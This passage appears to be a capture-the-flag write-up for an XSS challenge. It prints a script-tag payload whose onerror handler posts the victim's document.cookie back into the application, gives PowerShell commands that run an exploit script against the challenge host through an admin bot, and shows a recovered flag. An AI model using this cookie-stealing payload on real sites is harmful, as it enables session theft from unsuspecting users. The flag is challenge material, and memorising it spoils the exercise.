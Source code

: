 - Form field `_`: `[]` (URL-encoded when sending as body: `%5B%5D`)

Rendered result (simplified):

```html
<script id=x src=/nope.js onerror="fetch('/search',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'q='+encodeURIComponent(document.cookie)+'&_=%5B%5D'}) x">
  []
</script>
```

`/nope.js` 404s → `onerror` fires → cookie is POSTed into the app → we read it from `/searches`.

---

## How to run (Windows PowerShell)

Prereqs: container running; base URL/port from Arena (example below uses `http://c1.arena.airoverflow.com:7767`).

Option A: Minimal exploit (recommended)

```powershell
powershell -ExecutionPolicy Bypass -File run_exploit_min.ps1
```

- The script:
  - POSTs the crafted page
  - Reports `http://localhost:3000/search/<uuid>` to the admin bot
  - Waits ~15s, then GETs `/searches` and prints the flag

If your port changes, override on the command line:

```powershell
powershell -ExecutionPolicy Bypass -File run_exploit_min.ps1 -BaseUrl "http://c1.arena.airoverflow.com:<PORT>"
```

Option B: Verbose exploit

`run_exploit.ps1` is a more verbose variant (same technique). If you use it, ensure the `-BaseUrl` matches the current port.

---

## Flag

Example recovery (from a successful run):

```
PCC{viv4_74_vid4_i5_d1v4_d1d4_9d6Ntwpn7x}
```

---

## Troubleshooting

- “No redirect/UUID” after POST `/search`:
  - Ensure you’re using `application/x-www-form-urlencoded` (the app doesn’t parse JSON bodies).
